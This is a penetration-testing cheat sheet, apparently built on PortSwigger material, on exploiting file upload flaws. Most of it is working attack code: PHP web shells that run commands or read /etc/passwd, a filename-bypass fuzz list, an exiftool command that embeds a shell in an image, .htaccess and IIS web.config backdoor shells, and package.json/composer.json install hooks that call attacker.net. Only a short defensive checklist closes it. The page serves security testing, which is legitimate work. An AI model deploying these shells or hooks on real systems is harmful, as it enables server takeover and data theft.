

> Most of the contents on this page come from the Port Swigger Web Security Academy [^1].
> I just completed the information with other trickz I had and other sources, as well as templating the payloads.

[^1]: Port Swigger Web Security Academy: https://portswigger.net/web-security/file-upload

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

The following sources might also help you:
- [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Port Swigger's Web Security Academy - File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
- [HackTricks - File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [Pentest Book - File Upload](https://pentestbook.six2dez.com/enumeration/web/upload-bypasses)

The following mindmap can also asist you:



## Web shells

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

The ideal goal is to upload a file with a random name that only you, the attacker, knows where it is and you can ask it to execute commands you pass as query or post parameters.
But you can also make more simple payloads that suit your needs.
As a basic example the following is a simple PHP web shell that retrieves contents from the <code><smart-variable variable="target-file" default-value="/etc/passwd"></smart-variable></code> file:

```php
<?php echo file_get_contents('{{ target-file /etc/passwd }}'); ?>
```


### PHP

If you can upload any file on a server using PHP try to upload a PHP shell with one of the following extensions:

```text
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.php;.txt
.phpt
.txt
.phP
.php.test
.php.trickz
```

#### Super simple shell #1

The most basic yet versatile web shell would look something like this:

```php[simpleshell.php]
<?php echo system($_GET['{{ parameter command }}']); ?>
```

You could access it as follows:

<smart-tabs variable="request-options" :tabs="{'curl': 'Curl', 'http': 'HTTP'}">
<template v-slot:curl>

```bash
curl "https://{{ target vulnerable.net }}{{ webshell-location /example/exploit.php }}?{{ parameter command }}={{ payload id } url }"
```

</template>
<template v-slot:http>

```http
GET {{ webshell-location /example/exploit.php }}?{{ parameter command }}={{ payload id } url } HTTP/1.1
```

</template>
</smart-tabs>

### Java

> TODO: Add some JSP shells

## Exploiting flawed validation

Many times you will find controls in place to prevent you from uploading malicious files.
Chances are that this controls can be bypassed using some of the techniques listed below.


### Flawed file type validation

The following is an example from a `POST` request to upload an image.
One of the fields that is usually checked is the `Content-Type`.
The browser automatically sets it to the adecuate value, but as an attacker you can send whatever you want:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpeg"
Content-Type: {{ content-type image/jpeg }}

[...binary content of example.jpeg...]

---------------------------012345678901234567890123456--
```

You can test every possible value for `Content-Type` with Burp's Intruder, [ffuf](https://github.com/ffuf/ffuf) or your favourite tool for fuzzing on the web.
The following 2 worldists might help you:

- [content-type.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt)
- [web-all-content-types.txt](https://github.com/danielmiessler/SecLists/raw/master/Discovery/Web-Content/web-all-content-types.txt)


### Preventing file execution in user-accessible directories

It is also possible to find web applications configured with the intention of not executing uploaded files.
This usually translates into the files on the file-upload directory not being executed.
Sometimes you can circumvent this via a path traversal through the `filename` field on file uploads:
 
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="{{ filename ../../example.jpeg }}"
Content-Type: {{ content-type image/jpeg }}

[...binary content of example.jpeg...]

---------------------------012345678901234567890123456--
```

> You might want to try every directory traversal in your book such as encoding different parts of the filename or the `../` sequence.


### File extension bypass

Let's say you are facing a file upload functionality with an extension blacklist or whitelist.
Theres' a couple things you could try.

#### Obfuscating file extensions

One of the first things to test is if you can bypass such filters obfuscating your file extensions.
Here are some trickz:

- **Concatenating extensions**: This deppends on the implementation of the configuration but it is worth the try, just append valid extensions and see what happens. For example: <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable><smart-variable variable="whitelisted-extension" default-value=".jpeg"></smart-variable></code>
- **URL encoding or double URL encoding**: Specially valuable for dots or both slashes. For example:  <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php" value-filters="url-all"></smart-variable></code> or <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php" value-filters="url-all, url-all"></smart-variable></code>
- **Null bytes (URL-encoded) or semicolons**: You never know where your strings end up. Maybe some C/C++ code processes your filename and truncates it as null bytes indicate the end of strings. For example: <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable>;<smart-variable variable="whitelisted-extension" default-value=".jpeg"></smart-variable></code> or <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable>%00<smart-variable variable="whitelisted-extension" default-value=".jpeg"></smart-variable></code>
- **Multibyte unicode characters or other encodings**: Some bytes might be converted to null byutes or dots after conversions are applied. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- **Overcoming stripping**: Maybe the server replaces or strips `.php` from filenames, but you can try stuff like:

```text
shell.<b>p<span style="color:red;">.php</span>hp</b>
```

Putting everything in practice, to upload a <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable></code> file, you could elaborate a list of possible bypassess and do some fuzzing:

```text
{{ filename shell }}{{ extension .php }}
{{ filename shell }}{{ extension .php } upper }
{{ filename shell }}{{ extension .php }}.......
{{ filename shell }}{{ extension .php }}%20
{{ filename shell }}{{ extension .php } url-all }
{{ filename shell }}{{ extension .php } url-all, url-all }
{{ filename shell }}{{ extension .php } url-all }{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php } url-all, url-all }{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }};{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%00{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}\x00{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%3b{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0d{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%0d%0a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%2500{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%253b{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250d{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250a{{ whitelisted-extension .jpeg }}
{{ filename shell }}{{ extension .php }}%250d%250a{{ whitelisted-extension .jpeg }}
```

### Polyglot / Magic Bytes

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.
Take the following byte sequences as an example[^2]:

- **PNG**: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
- **JPG**: `\xff\xd8\xff`

[^2]: Wikipedia - List of file signatrues: https://en.wikipedia.org/wiki/List_of_file_signatures

You can add them manually, but I suggest to just modify a valid image or file and add a comment with `exiftool`.
For example, lets say you want to upload some a shell embedded in the <code><smart-variable variable="original-image" default-value="rct3.png"></smart-variable></code> file; the fololowing command would generate a <code><smart-variable variable="filename" default-value="shell"></smart-variable><smart-variable variable="extension" default-value=".php"></smart-variable></code> file whith a payload inside the previous image comment:

```bash
exiftool -comment="{{ payload <?php echo 'AAAAAA'.system($_GET['command']).'AAAAAA'; ?> }}" {{ original-image rct3.png }} -o {{ filename shell }}{{ extension .php }}
```

This shouldn't affect the code execution and could prevent errors when creating the files.


> Add some padding to your shell output (In the default example is 'AAAAAA'), to ease the job of extracting the output.
> You can probably make some regex magic going or a simple automation script.

## Uploading config files

Some servers allow developers to configure their applications on a per-directory basis.
Some of this configuration files would be:

```text
.htaccess
web.config
httpd.conf
__init__.py
```

### Apache

Mostly Linux servers configured to run PHP.
But is also common to find Apache as a reverse-proxy with `mod_proxy` in front of Tomcat based applications

#### Execute arbitrary extensions as PHP

As a **bypass for extension filters**, if you can upload `.htaccess` files, you might be able to override configurations for `Apache` and execute as `PHP` other extensions.
The following is an example of such configurations:


<smart-tabs variable="htaccess-upload" :tabs="{'php': 'PHP', 'php-five': 'PHP5', 'cgi': 'PHP as CGI'}">
<template v-slot:php>

```apacheconf[.htaccess]
AddType application/x-httpd-php {{ file-extensions .png .jpeg }}
```

</template>
<template v-slot:php-five>

```apacheconf[.htaccess]
AddType application/x-httpd-php5 {{ file-extensions .png .jpeg }}
```

</template>
<template v-slot:cgi>

```apacheconf[.htaccess]
AddHandler application/x-httpd-php {{ file-extensions .png .jpeg }}
```

</template>
</smart-tabs>


#### Self contained web shell #1

```apacheconf[.htaccess]
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### <?php echo "\n";{{ php-function passthru }}($_GET['{{ parameter command }}']." 2>&1"); ?>###### LLEHS ######
```

#### Self contained web shell #2

```apacheconf[.htaccess]
# htaccess backdoor shell
# this is relatively stealthy compared to a typical webshell

# overriding deny rule
# making htaccess accessible from the internet
# without this you'll get a HTTP 403
<Files ~ "^\.ht">
Require all granted
Order allow,deny
Allow from all
</Files>

# Make the server treat .htaccess file as .php file
AddType application/x-httpd-php .htaccess

# <?php {{ php-function system }}($_GET['{{ parameter command }}']); ?>

# To execute commands you would navigate to:
# http://vulnerable.com/.htaccess?{{ parameter command }}=YourCommand

# If system(); isnt working then try other syscalls
# e.g. passthru(); shell_exec(); etc
# If you still cant execute syscalls, try bypassing php.ini via htaccess
```

#### .htaccess/xbm image polyglot

It is possible to create a polyglot between an `.htacess` configuration and a `xbm` image.
The following python script shows you how:

<smart-tabs variable="python-version" :tabs="{'python': 'Python 3', 'python-legacy': 'Python 2'}">
<template v-slot:python>

```python[htaccess_poly.py]
type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'{{ payload # .htaccess file }}'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

</template>
<template v-slot:python-legacy>

```python[htaccess_poly.py]
width = 50
height = 50
payload = '{{ payload # .htaccess file }}'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```

</template>
</smart-tabs>

> You might want to improve that code a bit if you test this often.

### IIS


#### Execute arbitrary extensions as PHP

If you can upload a `web.config` file you might want to directly execute code from it as it can be executed.
But for consistance purposes this would be the equivalent from the Apache example.

```xml[web.config]
<handlers>
   <add name="PHP-FastCGI" verb="*" 
      path="{{ path-regex *.php }}" 
      modules="FastCgiModule"
      scriptProcessor="{{ interpreter c:\php\php-cgi.exe }}" 
      resourceType="Either" />
</handlers>
```

You can find more information about this example on Microsoft's official documentation [^3].

[^3]: Configure handlers on IIS: https://docs.microsoft.com/en-us/iis/configuration/system.webserver/handlers/#configuration-sample


#### Self contained web shell #1

```xml[web.config]
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="{{ parameter command }}" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("{{ parameter command }}")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>

<%Response.write("<!-"&"-") %>
-->
```

### JSON based dependency managers

You never know where the uploaded files end up.
If you can make a dependency manager parse your files, this could help you:

- **Javascript's NPM, Yarn** _(json escaped)_: 

```json[package.json]
"scripts": {
    "prepare": "{{ payload /usr/sbin/nslookup attacker.net } escape-4-json }"
}
```

- **PHP's Composer** _(json escaped)_:

```json[composer.json]
"scripts": {
    "pre-command-run": [
        "{{ payload /usr/sbin/nslookup attacker.net } escape-4-json }"
    ]
}
```

## Attacking parsers

If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats.
**For example**, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for [XML External Entity injection attacks](xxe).

### XXE on Office-like documents

### FFMPEG HLS

### Image Magik

### Exiftool CVE-2021-22204

## Other trickz 

### Uploading files with PUT

Some servers allow you to upload files to certain routes using the `PUT` method via HTTP.
You can query available methods with `OPTIONS` or just test the method  directly.
In any case the request would look something like this:

```http
PUT {{ path /images/ }}{{ web-shell-file shell.php }} HTTP/1.1
Host: {{ rhost target.net }}
Content-Type: {{ content-type application/x-httpd-php }}
Content-Length: 49

{{ payload [...Your web-shell of choice...] }}
```

You can also upload it from the command line for extra style points:

<smart-tabs variable="curl-vs-wget" :tabs="{'curl': 'Via curl', 'wget': 'Via wget'}">
<template v-slot:curl>

```bash
curl -fsSL -T "{{ web-shell-file shell.php }}" "https://{{ rhost target.net }}{{ path /images/ }}{{ web-shell-file shell.php }}"
```

</template>
<template v-slot:wget>

```bash
wget --method PUT --body-file=./{{ web-shell-file shell.php }} "https://{{ rhost target.net }}{{ path /images/ }}{{ web-shell-file shell.php }}" -O - -nv
```

</template>
</smart-tabs>


### Exploiting client-side vulnerabilities

If you can upload `svg` or `html` files, you could try to place some [XSS](/web/client-side/xss) payloads.
You might also be able to sneak some XSS payloads (possibly blind) on uploaded files metadata.

### Other kind of controls

When testing file upload functionalities, there are more checks that need to be performed.
Because, even if no malicious code gets executed, harm can still be made.
The following is a checklist of exploitable and important conditions to look for:

- [ ] Size on file uploads should be limited to prevent DoS attacks.
- [ ] Antivirus software should scan the uploaded files to prevent malware from being distributed through abusing the application. In general be cautious with uploaded content, because ilegal stuff or adult content is always susceptible to be uploaded to any site. 
- [ ] Check for IDORs as they are pretty common when managing files.
- [ ] Some files should never be stored on the server (`.exe` files are only a risk for clients)

> Always remember to check OWASP's guide on [Unrestricted File Uploads](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)